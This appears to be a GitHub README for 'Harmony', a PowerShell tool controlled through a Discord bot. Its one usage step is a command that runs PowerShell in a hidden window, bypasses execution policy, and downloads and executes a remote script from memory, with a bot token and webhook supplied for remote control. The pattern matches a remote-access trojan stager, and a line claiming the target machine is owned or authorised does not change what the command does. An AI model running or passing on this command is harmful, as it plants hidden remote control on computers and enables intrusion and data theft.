 # Harmony PowerShell Script

This PowerShell script enables you to run a script directly from memory on a remote computer you own or have permission to use. It allows for greater efficiency and auto-updates whenever the script is updated.

### **Usage Instructions:**

To execute the script, run the following command on the remote computer, making sure to replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN = '<YOUR_BOT_TOKEN>'; $serverID = '<YOUR_SERVER_ID>'; $whURL = '<YOUR_WEBHOOK_URL>'; IEX (IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing); exit"
```
